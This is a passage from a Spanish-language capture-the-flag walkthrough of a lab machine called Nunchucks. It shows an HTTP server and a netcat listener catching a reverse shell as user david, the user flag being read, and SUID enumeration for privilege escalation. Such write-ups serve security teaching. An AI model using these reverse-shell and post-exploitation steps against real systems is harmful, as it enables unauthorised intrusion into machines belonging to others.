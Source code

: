 Y a su vez, estaremos escuchando con `netcat` por el puerto 1235, si mandamos la información:

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.122 - - [12/Feb/2023 01:13:05] "GET / HTTP/1.1" 200 -
```
Y en el `netcat`:
```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.122] 43250
bash: cannot set terminal process group (1005): Inappropriate ioctl for device
bash: no job control in this shell
david@nunchucks:/var/www/store.nunchucks$ 
```

¡Bien!, estamos dentro de la máquina, buscamos la flag:
```
david@nunchucks:~$ cat user.txt
cat user.txt
e707026421f7744f3c6c7a7a6
```

Excelente ahora toca escalar privilegios.

## Escalada de privilegios
```
david@nunchucks:~$ id
uid=1000(david) gid=1000(david) groups=1000(david)
david@nunchucks:~$ sudo -l
[sudo] password for david: 
Sorry, try again.
[sudo] password for david: 
sudo: 1 incorrect password attempt
david@nunchucks:~$ netstat -nat

Command 'netstat' not found, but can be installed with:

apt install net-tools
Please ask your administrator.
```

No podemos ver los privilegios porque no tenemos la contraseña. 

Si buscamos por SUID encontramos cosas:
```
david@nunchucks:~$ find / -perm -4000 2>/dev/null
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/at
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/su
/usr/bin/sudo
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
```
Sin embargo, no utilizaremos `pkexec` para escalar privilegios.
